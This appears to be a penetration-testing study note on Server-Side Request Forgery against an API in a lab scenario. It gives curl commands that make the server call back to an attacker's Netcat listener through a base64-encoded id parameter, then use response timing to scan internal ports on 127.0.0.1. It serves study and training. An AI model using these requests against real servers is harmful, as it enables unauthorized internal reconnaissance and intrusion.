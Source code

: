 # Server-Side Request Forgery (SSRF)
Refer to [[/Offensive Security Techniques/Web Exploitation Techniques/SSRF - Server Side Request Forgery/]] for more in-depth attacks.

Allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data.

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources.

We should fuzz **every** identified parameter, even if it does not seem tasked with fetching remote resources.
## Example Scenario
Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.
```shell
curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```
- The API is expecting a parameter called _id_. 

Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.
```shell
nc -nlvp 4444
```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.
```shell
curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
```
- We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.
```shell
echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
```

```shell
curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

As time allows, try to provide APIs with input in various formats/encodings.
## Leveraging the SSRF vulnerability to identify different ports
We can leverage the SSRF vulnerability to identify that port 3002 (in this example) is listening locally on the web server. 

First we need to Base64-encode http://127.0.0.1:3002 so we can use it as the value for the id URL parameter:
```shell
echo "http://127.0.0.1:3002" | tr -d '\n' | base64
```

Then we can use `cURL` to check the total time that it would take for the request that specifies port 3002:
```shell
curl -s -w 'Total Time: %{time_total}s\n' "http://STMIP:3000/api/userinfo?id=aHR0cDovLzEyNy4wLjAuMTozMDAy"
```
- Since it takes considerably large amount of time (18 seconds), the port must be open and listening as some communications/processes are taking place. 

We can then be assured by trying to send a request for a port that is probably not open, for example, port 8888:
```shell
echo "http://127.0.0.1:8888" | tr -d '\n' | base64
```

Then, using `cURL` shows that the requests takes only 3 seconds, thus it must be closed due to how short the total time of the request is:
```shell
curl -s -w 'Total Time: %{time_total}s\n' "http://STMIP:3000/api/userinfo?id=aHR0cDovLzEyNy4wLjAuMTo4ODg4"
```

